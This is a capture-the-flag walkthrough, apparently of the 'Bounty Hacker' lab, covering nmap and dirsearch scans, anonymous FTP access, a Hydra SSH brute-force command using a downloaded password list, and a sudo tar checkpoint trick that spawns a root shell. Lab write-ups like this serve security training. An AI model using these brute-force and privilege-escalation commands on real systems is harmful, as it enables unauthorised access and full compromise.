# Bounty Hacker

## Scanning and Enumeration

nmap scan:
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.6.41.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|http-title: Site doesn't have a title (text/html).
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 (97%), Android 9 - 10 (Linux 4.9 - 4.14) (93%), Linux 2.6.32 - 3.13 (93%), Linux 3.2 - 4.14 (93%), Linux 4.15 - 5.19 (93%), Linux 2.6.32 - 3.10 (93%), Linux 5.4 (92%), Linux 3.10 - 4.11 (91%), Linux 2.6.32 - 3.5 (89%), HP P2000 G3 NAS device (88%)
```
dirsearch:
```
[19:39:16] 301 -   315B - /images  ->  http://10.10.118.213/images/

[19:39:16] 200 -   938B - /images/

[19:39:17] 200 -   969B - /index.html

[19:39:31] 403 -   278B - /server-status/

[19:39:31] 403 -   278B - /server-status
```

## FTP Server Access and File Transfer
Successfully logged into FTP server using Anonymous as username.


![image](https://github.com/user-attachments/assets/c36409e5-bd4d-4771-87b8-494bae4b3a18)

after typing "ls" and waiting for few seconds I found two .txt files

![image](https://github.com/user-attachments/assets/4ec8fd12-fa0d-4331-8031-166deb645f1f)

When running this command ``` wget --ftp-user=Anonymous ftp://10.10.118.213/locks.txt ``` to transfer the files over to my machine I got an error: "==> PASV ... couldn't connect to 10.10.118.213 port 18667: Connection timed out"

I successfully got it to work after changing the command to - ``` wget --ftp-user=Anonymous --no-passive-ftp ftp://10.10.118.213/locks.txt ```

![image](https://github.com/user-attachments/assets/242a97c5-1854-46aa-aa15-c6bbd181a4ef)


Found out that the person who wrote task list is Lin

![image](https://github.com/user-attachments/assets/7ff5ad08-3daf-4fe4-927a-a79f494140c1)

## SSH Brute Force using Hydra

Used locks.txt file to brute force ssh by using this command - ``` hydra -l lin -P locks.txt -t 4 -V ssh://10.10.27.97  ```

![image](https://github.com/user-attachments/assets/b822493c-cb95-4544-8c0b-5b1c18b38486)

Successfully logged into SSH and got the user.txt flag

![image](https://github.com/user-attachments/assets/35e53d7a-c3c2-4a78-80e8-d99df17ee26d)

## Privilege Escalation

Found lin's permissions -
``` 
lin@bountyhacker:/$ sudo -l
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

To get elevated permissions to root I used this command - ``` sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh ```


reference - https://gtfobins.github.io/gtfobins/tar/#sudo

![image](https://github.com/user-attachments/assets/a91470bb-8a99-45c2-aa8c-08f4518b42f6)




